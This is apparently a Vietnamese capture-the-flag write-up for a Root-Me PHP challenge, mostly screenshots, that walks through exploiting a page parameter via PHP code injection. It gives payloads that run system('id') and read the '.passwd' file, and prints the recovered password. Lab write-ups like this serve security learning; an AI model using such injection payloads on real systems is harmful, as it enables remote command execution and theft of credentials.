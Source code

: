 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/081c8e11-47dc-4c7d-b38c-0e48c6db9c8f)![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/429c1696-6aa3-4a01-bb8c-abdd7ddb0bc8)

URL hiển thì ```?page=about```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/5a6444ee-4810-42f3-81da-e9157ab66152)

Khi thử lỗi path traversal thì nhận được cảnh báo. Có vẻ như nó sẽ thêm extension ".php" vào cuối 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2fef656e-f218-4e8e-bc7b-44469fa40e73)

có vẻ như đoạn code của nó sẽ như vậy

Sử dụng payload ```' and die(system("id")) or '```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/04260596-2fdb-4111-8265-0563922b69a5)

=> Thành công

 giờ ta sử dụng ``` ' and die(file_get_contents(".passwd")) or '``` để xem file ".passwd"
 
![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2d42a9a4-6d81-4d5b-9fd6-646b2fb5d1d6)

=> x4Ss3rT1nglSn0ts4f3A7A1Lx
